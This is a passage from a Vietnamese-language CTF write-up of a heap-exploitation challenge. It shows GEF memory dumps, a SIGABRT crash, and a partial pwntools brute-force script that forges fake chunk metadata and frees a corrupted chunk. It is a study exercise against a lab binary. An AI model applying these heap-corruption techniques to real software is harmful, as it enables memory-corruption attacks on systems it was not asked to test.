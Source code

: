 Nhìn hình ta thấy tại `gef➤  x/38xg 0x000055e249c90290` là index 0, 1, 2 và wild chunk nhưng khi ta cộng lên 0x420 thì không thấy đâu. Còn khi ta xét tại địa chỉ đã ghi đè 2 byte cuối `gef➤  x/10xg 0x000055e249c986b0` thì sẽ thấy được index 6 của ta sẽ nằm ở đó. Ta hãy thử xem khi free chunk 0 thì chuyện gì sẽ xảy ra:

![SIGABRT](images/SIGABRT.png)

Chương trình sẽ báo lỗi sigabrt ngay. Vậy nếu ta free chunk 0 thành công thì sẽ không báo lỗi. Vậy ta sẽ brute force tiếp cho tới khi ta xóa note 0 thành công. Code sẽ được thêm Delete(0) như sau:

```
while True:
    p = process('./note_patched')
    .
    .
    .
    try:
        # After successfully add junk 6, we have a split between 
        # wild junk and the big junk with index 0
        Add(5, 0x50, b'55555555')
        payload = p64(0) + p64(0x21)        # Fake metadata of first chunk
        payload += p64(0)*2                 # Fake context
        payload += p64(0) + p64(0x21)       # Fake metadata of second chunk
        Add(6, 0x50, payload)

        # Thêm ở đây
        Delete(0)
    except:        p.close()
        continue
    input("GDB>")
```
